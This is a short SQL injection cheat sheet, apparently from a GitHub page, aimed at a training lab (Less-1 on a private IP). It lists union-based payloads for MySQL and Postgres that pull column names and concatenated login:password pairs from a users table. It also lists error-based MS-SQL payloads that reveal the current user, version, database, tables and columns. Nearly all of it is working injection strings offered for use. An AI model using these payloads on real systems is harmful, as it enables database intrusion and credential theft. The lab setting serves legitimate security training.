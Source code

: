 #### Finding column names from a table

**mysql**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

**postgres**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"
```

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

In one query:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**

### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`

#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`

#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`

#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`

#### Columns within a table

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

